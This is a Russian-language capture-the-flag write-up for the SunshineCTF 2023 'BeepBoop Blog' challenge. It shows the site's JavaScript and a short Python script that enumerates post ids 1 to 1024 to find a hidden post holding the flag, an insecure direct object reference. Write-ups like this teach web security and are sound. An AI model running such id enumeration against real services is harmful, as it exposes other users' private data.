 # BeepBoop_Blog

## Задание

![Untitled](BeepBoop_Blog_Img/Untitled.png)

Взглянем на сам сайт.

![Untitled](BeepBoop_Blog_Img/Untitled%1.png)

![Untitled](BeepBoop_Blog_Img/Untitled%2.png)

Сайт представляет собой одностраничник с множеством записей от роботов, как указано в задании, флаг скорее всего в одной из них. Но такое количество блогов перебирать в ручную, кажется невозможным.

## Решение

Прежде всего возникает идея взглянуть на исходный сайт, там мы обнаружим скрипт, который переносит пользователя на страницу с блогом.

```jsx
function loadPosts() {
    fetch("/posts").then(data => {
        return data.json();
    }).then(json => {
        document.getElementById("contents").innerHTML = "";

        let out = "";
        for (let i = 0; i < json.posts.length; i++) {
            let post = json.posts[i].post;
            let preview = post.substring(0, 100) + "...";
            let post_url = json.posts[i]["post_url"].split("/");
            let post_id = post_url[post_url.length - 1];

            const postElement = document.createElement("div");
            postElement.classNames = "post";

            const headElement = document.createElement("h3");
            headElement.innerText = `Post from ${json.posts[i].user}`;
            postElement.appendChild(headElement);

            const textElement = document.createElement("p");
            textElement.innerText = preview;
            postElement.appendChild(textElement);

            const linkElement = document.createElement("a");
            linkElement.onclick = evt => { loadPost(post_id) };
            linkElement.href = "#";
            linkElement.innerText = "View All...";
            postElement.appendChild(linkElement);

            document.getElementById("contents").appendChild(postElement);
        }
    })
}

function loadPost(post_id) {
    document.getElementById("contents").innerHTML = "";

    fetch(`/post/${post_id}/`).then(data => {
        return data.json();
    }).then(json => {;

        const postElement = document.createElement("div");
        postElement.classNames = "post";

        const headElement = document.createElement("h3");
        headElement.innerText = `Post from ${json.user}`;
        postElement.appendChild(headElement);

        const textElement = document.createElement("p");
        textElement.innerText = json.post;
        postElement.appendChild(textElement);

        const linkElement = document.createElement("a");
        linkElement.onclick = evt => { loadPosts() };
        linkElement.href = "#";
        linkElement.innerText = "Go Back";
        postElement.appendChild(linkElement);

        document.getElementById("contents").appendChild(postElement);
    })
}

window.onload = evt => {
    loadPosts();
}
```

Можем заметить, что все блоги лежат в json фале по адресу /posts. Так же можно обнаружить, что можно достать каждый пост по его номеру., у все постов параметр hidden установлен на false, наталкивает на мысль, что нужный нам пост скрыт. Всего постов 1024.

Напишем скрипт, который пропарсит все посты.

```python
import requests
from urllib3.exceptions import InsecureRequestWarning
from urllib3 import disable_warnings
import re
s = requests.Session()
posts = []
regs = []
link = "https://beepboop.web.2023.sunshinectf.games/post/"
disable_warnings(InsecureRequestWarning)
for i in range(0, 1024):
    r = s.get(link+str(i)+"/", verify=False)
    posts.append(r.text)
for i in posts:
    if re.search("sun{", i) != None:
        print(i)
```

после того, как все посты будут собраны, остается только найти пост с флагом.

```jsx
{"hidden":true,"post":"sun{wh00ps_4ll_IDOR}","user":"Robot #000"}
```